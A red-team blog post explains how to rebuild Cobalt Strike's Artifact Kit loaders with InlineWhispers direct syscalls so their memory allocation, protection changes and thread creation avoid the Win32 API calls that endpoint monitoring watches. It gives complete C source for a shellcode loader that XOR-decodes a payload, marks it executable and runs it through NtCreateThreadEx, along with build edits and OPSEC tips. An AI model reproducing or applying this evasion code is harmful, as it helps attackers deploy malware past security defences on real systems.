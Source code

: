 ```yaml
---
title: Integrating Direct Syscalls in Cobalt Strike's Artifact Kit
date: 2022-06-22 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
#layout: post
description: Using InlineWhispers to implement Direct Syscalls in Cobalt Strike's Artifact Kit
---
```


<p align="center">
     <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/cobaltsyscalls/syscalls.png">
</p>

## Resources

[Using Direct Syscalls from Beacon Object Files and MinGW](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)

[Implementing Syscalls in the Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)

[Using Direct Syscalls in Cobalt Strike's Artifact Kit - YT](https://www.youtube.com/watch?v=mZyMs2PP38w&t=21s&ab_channel=RaphaelMudge)

[InlineWhispers](https://github.com/outflanknl/InlineWhispers)

## Methodology

1. Find function calls you would like to replace in a function module like `spawn`:

	- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`

	- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`

2. Add the required functions in `functions.txt` which uses `syscalls.asm` (generated by Syswhispers1) and generates `syscalls-asm.h` to incorporate functions specified: `python3 InlineWhispers.py`

	- Copy over `syscalls-asm.h` and `Syscalls.h` to `src-common/`. 

3. Replace `Windows.h` in `Syscalls.h` to `windows.h`

4. To use the generated `inline-assembly` using the `mingw` compiler, we change the dialect of masm to the *intel syntax* (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)).

	- Edit `build.sh` and the the dialect to the `$options` variable: `export options= -0s -masm=intel`

5. Edit `patch.c` as an example template. Split `x64` and `x86` code as they require seperate versions of inline-whispers. Add the `syscalls-asm.h` header to include the functions.

	```c
	#elif _M_X64
	#include "syscalls-asm.h"
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}

	#else
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}
	#endif
	```

6. Setup requirements to replace the functions calls. (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/))

	1. Start by grabbing the approprate function prototypes and incorporating it in the program.

	```c
	[.............]
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	} [................]
	```

	2. Add variables as required/stated in the blog.

	```c
	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;

	        [.........]
	```

	- Replace `ptr` in the function module to the `base_address` variable defined above to stay in convention with the variables in the blog.


7. Replace the function calls to their NT equivalents similar to the blog.

	- Replace `VirtualAlloc()` with: `NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`

		- Replace `calc_len to length`

	- Replace `VirtualProtect()` with: `NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);`

		- Replace `calc_len to length`

		- Replace `oldprotect` to `old`

	- Replace `CreateThread` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);`

		- Declare the variable `HANDLE thandle = NULL` 

		> **OPSEC**: `NtCreateThreadEx` starts the thread using `base_addr` which has a start address that is not backed by a module on disk.

		- Replace `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);` to make the start address the `run` function and the `base_addr` is passed as an argument. 

	- Sample: (Replace `injector.c` and `patch.c` similarly to implement direct syscalls in all artifacts)

	```c
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	}

	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;
	        HANDLE thandle = NULL;

	        /* allocate the memory for our decoded payload */
	        /*base_addr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);*/
	        NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	        int x;
	        for (x = 0; x < length; x++) {
	                char temp = *((char *)buffer + x) ^ key[x % 4];
	                *((char *)base_addr + x) = temp;
	        }

	        /* propagate our key function pointers to our payload */
	        set_key_pointers(base_addr);

	        /* change permissions to allow payload to run */
	        /*VirtualProtect(base_addr, length, PAGE_EXECUTE_READ, &old);*/
	        NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &old);

	        /* spawn a thread with our data */
	        /*CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, base_addr, 0, NULL);*/
	        NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);
	}
	```

8. Validate the syscalls: `VirtualAlloc()`, `VirtualProtect()` and `CreateThread` shouldn't appear now.

	- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`

	- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`

> **NOTE**: `VirtualProtect` and `VirtualQuery` are called by C runtimes linked into the default mingw 64bit binaries hence these functions still appear in the import table.